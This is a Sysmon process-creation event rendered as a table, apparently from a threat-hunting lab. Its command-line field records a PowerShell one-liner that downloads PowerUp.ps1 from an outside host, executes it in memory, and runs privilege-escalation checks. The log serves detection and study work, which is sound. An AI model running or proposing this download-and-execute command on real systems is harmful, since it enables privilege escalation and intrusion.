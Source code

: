 | **Field**             | **Value**                                                                                                                                                                      |
|-----------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CommandLine           | `powershell "iex(new-object net.webclient).downloadstring('http://huntmeplz.com/PowerUp.ps1'); Invoke-AllChecks;"`                                                            |
| Company               | Microsoft Corporation                                                                                                                                                         |
| CurrentDirectory      | `C:\Users\victim\Downloads\`                                                                                                                                                  |
| Description           | Windows PowerShell                                                                                                                                                            |
| EventID               | 1                                                                                                                                                                              |
| FileVersion           | 10.0.17763.1 (WinBuild.160101.0800)                                                                                                                                            |
| Hashes                | MD5=7353F60B1739074EB17C5F4DDDEFE239, SHA256=DE96A6E69944335375DC1AC238336066889D9FFC7D73628EF4FE1B1B160AB32C, IMPHASH=741776AACCFC5B71FF59832DCDCACE0F |
| Image                 | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`                                                                                                                   |
| IntegrityLevel        | Medium                                                                                                                                                                        |
| LogonGuid             | `{4bbef3ae-81e4-630c-b94b-100000000000}`                                                                                                                                      |
| LogonId               | `0x104bb9`                                                                                                                                                                    |
| OriginalFileName      | PowerShell.EXE                                                                                                                                                                |
| ParentCommandLine     | `cmd.exe`                                                                                                                                                                     |
| ParentImage           | `C:\Windows\System32\cmd.exe`                                                                                                                                                 |
| ParentProcessGuid     | `{4bbef3ae-cbcf-630c-070f-000000000e00}`                                                                                                                                      |
| ParentProcessId       | 1856                                                                                                                                                                          |
| ParentUser            | SIGHUNT\victim                                                                                                                                                                |
| ProcessGuid           | `{4bbef3ae-cbe0-630c-080f-000000000e00}`                                                                                                                                      |
| ProcessId             | 6024                                                                                                                                                                          |
| Product               | Microsoft® Windows® Operating System                                                                                                                                          |
| RuleName              | -                                                                                                                                                                              |
| TerminalSessionId     | 2                                                                                                                                                                              |
| User                  | SIGHUNT\victim                                                                                                                                                                |
| UtcTime               | 2022-08-29 14:23:28.929                                                                                                                                                        |
